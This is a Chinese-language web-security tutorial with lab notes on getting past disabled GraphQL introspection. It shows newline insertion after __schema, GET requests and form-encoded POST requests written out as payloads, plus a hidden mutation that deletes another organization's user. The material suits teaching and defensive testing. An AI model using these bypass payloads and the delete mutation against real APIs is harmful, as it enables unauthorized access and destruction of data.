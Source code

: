 当 GraphQL 内省（Introspection）被开发者禁用时，通常会通过 **关键词过滤**（如拦截包含 `__schema` 的请求）或 **限制请求方法**（如仅允许 POST）进行防御。以下是绕过此类防御的常见方法：

#### 1. 特殊字符插入

**原理**：开发者用正则（如 `/\b__schema\b/`）拦截时，在 `__schema` 后加换行、空格、逗号等字符。

**示例**：

- 原查询：`__schema{queryType{name}}`
- 绕过写法：`__schema\n {queryType{name}}`（加换行符）

#### 2. 请求方法 / 类型切换

**原理**：仅限制 POST 请求进行内省，改用 GET 或其他内容类型（如 `x-www-form-urlencoded`）。

```http
GET /graphql?query=%7B__schema%7BqueryType%7Bname%7D%7D%7D HTTP/1.1
```

### GraphQL 内省绕过演示

##### 换行符绕过（POST 请求）

```json
{
    "query": "query { __schema\n{ queryType { name } } }"
}
```

##### GET 请求绕过

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

##### 表单编码绕过（POST）

```http
POST /graphql HTTP/1.1
Content-Type: application/x-www-form-urlencoded

query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

### 实验

隐藏查询端点：

![image-20250515163257655](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515163257655.png)

![image-20250515163315804](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515163315804.png)

![image-20250515163803943](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515163803943.png)

![image-20250515163848737](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515163848737.png)

```
__schema 后面紧接一个 \n绕过正则匹配，解析后如下：
```

![image-20250515164047339](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515164047339.png)

```
query {
  getUser(id: 123) {
    id
    username
  }
}

query GetUser($id: Int!) {
  getUser(id: $id) {
    id
    username
  }
}
```

![image-20250515164323976](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515164323976.png)

### 使用 clairvoyance 查找隐藏的利用

```
mutation {
	deleteOrganizationUser(input:{id: 3}) {
		user {
			id
		}
	}
}
```

![image-20250515170142868](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/GraphQL%20API%20%E6%BC%8F%E6%B4%9E/images/image-20250515170142868.png)